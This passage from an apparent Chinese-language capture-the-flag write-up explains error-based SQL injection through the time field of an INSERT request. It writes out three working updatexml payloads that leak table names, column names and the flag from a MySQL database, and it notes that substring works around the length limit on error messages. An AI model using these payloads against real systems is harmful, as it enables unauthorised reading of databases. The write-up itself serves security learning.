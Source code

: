 那么尝试爆一下表呢

![](./images/image-103.png)

会发现即使后面注入语句没有问题，time原来是字符串格式，但是有or的存在，mysql会计算两端字符串的值，time就会以double的形式被计算，所以会报错

其实只需要把time的日期部分改成空字符串就可以了，因为在insert的时候是先判断计算这个time的语句是否合法，然后再插入，插入是后面的事情，我们在判断的时候就能看到想要的报错信息

```
ip=&user_agent=&time='' or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),1)    ##爆表名

ip=&user_agent=&time='' or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='secret_of_kokomi')),1)     ##爆列名

ip=&user_agent=&time=''  or updatexml(1,concat('#',substring((select group_concat(content)from secret_of_kokomi where id=3),1,30)),0)  ##爆flag
```

![](./images/image-104.png)

因为有报错信息长度的限制，这里用一个substring就好了
